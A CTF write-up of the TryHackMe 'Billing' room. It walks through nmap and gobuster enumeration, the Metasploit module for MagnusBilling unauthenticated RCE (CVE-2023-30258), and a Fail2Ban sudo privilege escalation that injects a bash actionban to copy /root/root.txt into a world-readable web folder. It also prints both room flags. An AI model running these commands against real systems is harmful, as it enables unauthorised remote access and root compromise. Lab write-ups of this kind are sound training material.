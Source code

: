 ```yaml
---
title: "TryHackMe - Billing"
date: 2025-03-08 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [nmap, metasploit, privilege escalation, fail2ban]

---
```



## Introduction

In this post, I will describe my approach to solving the MagnusBilling CTF challenge on TryHackMe. The process involved port scanning, service enumeration, exploiting the known vulnerability CVE-2023-30258, and escalating privileges to root using Fail2Ban manipulation.

## 1. Port Scanning

First, I scanned the target host to identify available ports and services:
```console
nmap -sC -sV -Pn 10.10.181.229
```
## 2. Directory Enumeration

I used Gobuster to identify potentially interesting directories:
```console
gobuster dir -u http://10.10.181.229 -w /usr/share/wordlists/dirb/big.txt
```
I checked `robots.txt` and discovered mbilling directory.<br>
After finding the mbilling directory, I performed a more detailed scan:
```console
gobuster dir -u http://10.10.181.229/mbilling -w /usr/share/wordlists/dirb/big.txt
```

## 3. Exploiting MagnusBilling Vulnerability (CVE-2023-30258)

After researching 
 [CVE-2024-30258 Exploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)
 I used Metasploit to gain access to the system:
```console
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > show targets
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > set TARGET <target-id>
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > show options
msf exploit(magnusbilling_unauth_rce_cve_2023_30258) > exploit
```
After gaining access, I found the first flag in the `magnus` user's directory:

`THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

 ## 4. Privilege Escalation to Root via Fail2Ban

I checked which commands I could run as sudo:

```console
sudo -l
```
The output showed:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

I found a way to escalate privileges through Fail2Ban:

Source: juggernaut-sec.com

I modified the Fail2Ban rule to copy the root flag to a directory accessible by the www-data user:

sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"
```


I’m researching [Fail2Ban](https://juggernaut-sec.com/fail2ban-lpe/).It turns out that I have sudo privileges that allow me to restart the Fail2Ban service without knowing the current user's password. This enables me to exploit it to execute arbitrary commands. To achieve this, I need to modify the iptables-multiport actionban file so that it allows me to read the next flag, which is accessible only by root.

```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/root_exposed.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"

```

To execute the malicious command, I also need to ban the local IP:

```bash
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1

```

Now I can read the flag:

```bash
cat /var/www/html/mbilling/lib/icepay/root_exposed.txt

```
Flag : `THM{33ad5b530e71a172648f424ec23fae60}`


## Conclusion

In this challenge, I demonstrated a complete attack chain, from initial reconnaissance to privilege escalation. By systematically scanning the target, identifying vulnerabilities, and leveraging misconfigurations, I was able to gain root access. 